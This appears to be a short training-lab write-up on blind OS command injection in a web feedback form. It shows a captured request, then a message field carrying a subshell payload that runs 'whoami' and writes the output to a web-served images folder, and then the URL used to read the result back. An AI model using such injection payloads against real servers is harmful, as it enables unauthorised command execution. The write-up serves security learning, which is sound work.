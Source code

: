 This lab contains a blind OS command injection vulnerability in the feedback function.

If you open Firefox Developer Tools before sending out feedback you can see the request you're sending.

Example request would be something like this:

```
csrf	"wlp18kkrYxOls0OQAVO0YPJhSkw9MOeK"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"asd"
```

We can think a little and deduct that in order to display spaces to message body should be wrapped in quotes and we can inject a command in a subshell like this:

```
csrf	"wlp18kkrYxOls0OQAVO0YPJhSkw9MOeK"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"$(whoami>/var/www/images/output.txt)"
```

Then we can access the file like this:

```
/image?filename=output.txt
```

